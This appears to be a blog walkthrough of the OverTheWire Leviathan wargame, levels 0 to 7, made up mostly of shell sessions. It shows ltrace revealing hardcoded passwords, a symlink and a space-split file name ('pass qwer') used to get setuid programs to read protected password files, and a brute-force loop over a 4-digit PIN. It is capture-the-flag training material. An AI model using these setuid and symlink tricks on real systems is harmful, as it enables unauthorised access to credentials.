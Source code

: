 ```yaml
---
layout:     post
title:      "Overthewire.org - Leviathan"
subtitle:   "Write-Up"
date:       2016-07-25 10:00:00
author:     "W3ndige"
header-img: "img/overthewire-header.png"
---
```


<h1>Introduction</h1>

<p>Today we're gonna give a try Leviathan wargame which requires some common sense and a little bit of knowledge about Unix commands.</p>
<p>Let's get started!</p>

<b>0 --> 1</b>
<p>First thing is to login into the leviathan0 account using SSH. Then we're gonna take a look at home directory using <i>ls -la</i> command.</p>
{% highlight bash %}
leviathan0@melinda:~$ ls -la
total 24
drwxr-xr-x   3 root       root       4096 Nov 14  2014 .
drwxr-xr-x 172 root       root       4096 Jul 10 14:12 ..
drwxr-x---   2 leviathan1 leviathan0 4096 May 15 02:15 .backup
-rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root       root       3637 Apr  9  2014 .bashrc
-rw-r--r--   1 root       root        675 Apr  9  2014 .profile
{% endhighlight %}
<p>Rresults show us an hidden backup folder, containing a file called bookmarks.html.</p>
{% highlight bash %}
leviathan0@melinda:~$ cd .backup
leviathan0@melinda:~/.backup$ ls -la
total 140
drwxr-x--- 2 leviathan1 leviathan0   4096 May 15 02:15 .
drwxr-xr-x 3 root       root         4096 Nov 14  2014 ..
-rw-r----- 1 leviathan1 leviathan0 133259 Nov 14  2014 bookmarks.html
{% endhighlight %}
<p>Searching the file manually will probably take us years so why not to grep string with a word password?</p>
{% highlight bash %}
leviathan0@melinda:~/.backup$ cat bookmarks.html | grep password

<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is *******" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>
{% endhighlight %}

<b>1 --> 2</b>
<p>Once again let's view the files in the main directory, but now we have a file called check.</p>
{% highlight bash %}
leviathan1@melinda:~$ ls -la
total 28
drwxr-xr-x   2 root       root       4096 Nov 14  2014 .
drwxr-xr-x 172 root       root       4096 Jul 10 14:12 ..
-rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root       root       3637 Apr  9  2014 .bashrc
-rw-r--r--   1 root       root        675 Apr  9  2014 .profile
-r-sr-x---   1 leviathan2 leviathan1 7493 Nov 14  2014 check
{% endhighlight %}
<p>After running, it asks us for a password, maybe running <i>ltrace</i> will find anything useful.</p>
{% highlight bash %}
leviathan1@melinda:~$ ./check
password: password
Wrong password, Good Bye ...
leviathan1@melinda:~$ ltrace ./check
__libc_start_main(0x804852d, 1, 0xffffd7a4, 0x80485f0 <unfinished ...>
printf("password: ")                                                                                    = 10
getchar(0x8048680, 47, 0x804a000, 0x8048642password: password
)                                                            = 112
getchar(0x8048680, 47, 0x804a000, 0x8048642)                                                            = 97
getchar(0x8048680, 47, 0x804a000, 0x8048642)                                                            = 115
strcmp("pas", "sex")                                                                                    = -1
puts("Wrong password, Good Bye" ...Wrong password, Good Bye ...
)                                                                    = 29
+++ exited (status 0) +++
{% endhighlight %}
<p>Yeah, it's comparing our password with 'sex' using strcmp function, so 'sex' is desired password.</p>
{% highlight bash %}
leviathan1@melinda:~$ ./check
password: sex
$ cat /etc/leviathan_pass/leviathan2
*******
{% endhighlight %}
<p>After entering pass correctly, we are given a shell where we can view the password for the next level.</p>

<b>2 --> 3</b>
<p>We are given a printfile file, which usage is printing files (obviously :D). We can try, and check a simple trick.</p>
{% highlight bash %}
leviathan2@melinda:~$ ls -la
total 28
drwxr-xr-x   2 root       root       4096 Nov 14  2014 .
drwxr-xr-x 172 root       root       4096 Jul 10 14:12 ..
-rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root       root       3637 Apr  9  2014 .bashrc
-rw-r--r--   1 root       root        675 Apr  9  2014 .profile
-r-sr-x---   1 leviathan3 leviathan2 7498 Nov 14  2014 printfile

leviathan2@melinda:~$ ./printfile
*** File Printer ***
Usage: ./printfile filename
leviathan2@melinda:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
{% endhighlight %}
<p>:(</p>
<p>Now we have to try something different. Firstly create a directory in /tmp.Next step will be creating 2 files: first called pass which is symbolic link to our password file and then file called pass qwer, you can name them however you want but the trick is that second file needs to have first file name in the first half of the second one like this.</p>
{% highlight bash %}
leviathan2@melinda:~$ mkdir /tmp/w3nditor
leviathan2@melinda:~$ cd /tmp/w3nditor
leviathan2@melinda:/tmp/w3nditor$ ln -s /etc/leviathan_pass/leviathan3 ./pass
leviathan2@melinda:/tmp/w3nditor$ touch pass\ qwer
{% endhighlight %}
<p>Then we can use our printfile on previously created pass qwer. What the trick does, is that it firstly allows us to access because the pass qwer exists and then cat command treats them as two seperate files so we can view the password through previously created symbolic link.</p>
{% highlight bash %}
leviathan2@melinda:~$ ./printfile /tmp/w3nditor/pass\ qwer
*******
/bin/cat: qwer: No such file or directory
{% endhighlight %}

<b>3 --> 4</b>
<p>In this one, we get file called level3 that after executing asks us for a password.</p>
{% highlight bash %}
leviathan3@melinda:~$ ls -la
total 32
drwxr-xr-x   2 root       root       4096 Mar 21  2015 .
drwxr-xr-x 172 root       root       4096 Jul 10 14:12 ..
-rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root       root       3637 Apr  9  2014 .bashrc
-rw-r--r--   1 root       root        675 Apr  9  2014 .profile
-r-sr-x---   1 leviathan4 leviathan3 9962 Mar 21  2015 level3
leviathan3@melinda:~$ ./level3
Enter the password> password
bzzzzzzzzap. WRONG
{% endhighlight %}
<p>Let’s once again use ltrace to check for anything useful.</p>
{% highlight bash %}
leviathan3@melinda:~$ ltrace ./level3
__libc_start_main(0x80485fe, 1, 0xffffd7a4, 0x80486d0 <unfinished ...>
strcmp("h0no33", "kakaka")                       = -1
printf("Enter the password> ")                   = 20
fgets(Enter the password> password
"password\n", 256, 0xf7fc9c20)             = 0xffffd59c
strcmp("password\n", "snlprintf\n")              = -1
puts("bzzzzzzzzap. WRONG"bzzzzzzzzap. WRONG
)                       = 19
+++ exited (status 0) +++
{% endhighlight %}
<p>In this level, it uses strcmp between our string and ‘snlprintf’.</p>
{% highlight bash %}
leviathan3@melinda:~$ ./level3
Enter the password> snlprintf
[You've got shell]!
$ cat /etc/leviathan_pass/leviathan4
*******
{% endhighlight %}
<p>And it works perfectly!</p>

<b>4 --> 5</b>
{% highlight bash %}
leviathan4@melinda:~$ ls -la
total 24
drwxr-xr-x   3 root root       4096 Nov 14  2014 .
drwxr-xr-x 172 root root       4096 Jul 10 14:12 ..
-rw-r--r--   1 root root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root root       3637 Apr  9  2014 .bashrc
-rw-r--r--   1 root root        675 Apr  9  2014 .profile
dr-xr-x---   2 root leviathan4 4096 Nov 14  2014 .trash
leviathan4@melinda:~$ cd .trash
leviathan4@melinda:~/.trash$ ls -la
total 16
dr-xr-x--- 2 root       leviathan4 4096 Nov 14  2014 .
drwxr-xr-x 3 root       root       4096 Nov 14  2014 ..
-r-sr-x--- 1 leviathan5 leviathan4 7425 Nov 14  2014 bin
leviathan4@melinda:~/.trash$ ./bin
01010100 01101001 01110100 01101000 00110100 01100011 01101111 01101011 01100101 01101001 00001010
{% endhighlight %}
<p>From this one, we get a binary string which after converting to ASCII gives: ******* – password for next level.</p>

<b>5 --> 6</b>
<p>Now we get a file that is somehow looking for /tmp/file.log</p>
{% highlight bash %}
leviathan5@melinda:~$ ls -la
total 28
drwxr-xr-x   2 root       root       4096 Nov 14  2014 .
drwxr-xr-x 172 root       root       4096 Jul 10 14:12 ..
-rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root       root       3637 Apr  9  2014 .bashrc
-rw-r--r--   1 root       root        675 Apr  9  2014 .profile
-r-sr-x---   1 leviathan6 leviathan5 7634 Nov 14  2014 leviathan5
leviathan5@melinda:~$ ./leviathan5
Cannot find /tmp/file.log
{% endhighlight %}
<p>Creating link in /tmp/file.log to leviathan pass let’s us see a password.</p>
{% highlight bash %}
leviathan5@melinda:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@melinda:~$ ./leviathan5
*******
{% endhighlight %}

<b>6 --> 7</b>
<p>This time we’ve got executable which asks for a 4 digit code.</p>
{% highlight bash %}
leviathan6@melinda:~$ ls -la
total 28
drwxr-xr-x   2 root       root       4096 Nov 14  2014 .
drwxr-xr-x 172 root       root       4096 Jul 10 14:12 ..
-rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root       root       3637 Apr  9  2014 .bashrc
-rw-r--r--   1 root       root        675 Apr  9  2014 .profile
-r-sr-x---   1 leviathan7 leviathan6 7484 Nov 14  2014 leviathan6
leviathan6@melinda:~$ ./leviathan6
usage: ./leviathan6 <4 digit code>
leviathan6@melinda:~$ ./leviathan6 1111
Wrong
{% endhighlight %}
<p>Only way to get access will be brute forcing the pass code.  We can use any programming language but this time I’ll try to write simple bash script.</p>
{% highlight bash %}
leviathan6@melinda:~$ for i in {0000..9999}; do ./leviathan6 $i; echo $i; done

Wrong
7119
Wrong
7120
Wrong
7121
Wrong
7122
$ cat /etc/leviathan_pass/leviathan7
*******
$
{% endhighlight %}
<p>And here we go! We’ve got the password!</p>

<p>Thanks for the challenge! Hope you enjoyed solving this problems as much as I had.</p>
<p>~Stay safe!</p>
